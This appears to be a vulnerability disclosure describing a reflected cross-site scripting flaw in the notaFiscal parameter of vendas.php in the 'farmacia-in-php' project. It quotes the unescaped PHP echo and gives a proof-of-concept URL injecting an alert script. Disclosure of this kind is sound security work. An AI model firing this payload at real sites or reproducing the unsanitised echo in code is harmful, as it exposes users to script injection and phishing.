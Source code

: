 # farmacia-in-php has Cross Site Scripting vulnerability in vendas.php

## supplier 
https://code-projects.org/farmacia-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
/vendas.php

## describe

The vulnerability of cross-site scripting attack in the system is vendas.php file. The parameter that can be controlled is: notaFiscal.Exploit vulnerabilities can be phishing

**Code analysis**    

echo notaFiscal value in no filter in vendas.php

```
        <input type="hidden" name="notaFiscal" value="<?php echo $_GET['notaFiscal']; ?>" />
```

![image-20241128203251872](https://github.com/user-attachments/assets/eff903f2-5f42-4847-ade7-8d190957ffc3)

## POC

The browser accesses this URL

```
http://farmacia/vendas.php?notaFiscal="/><script>alert('id_xss');</script>
```

**Result**

![image-20241128203358794](https://github.com/user-attachments/assets/fc28a2b3-6c01-411c-bc2c-21f5815a55eb)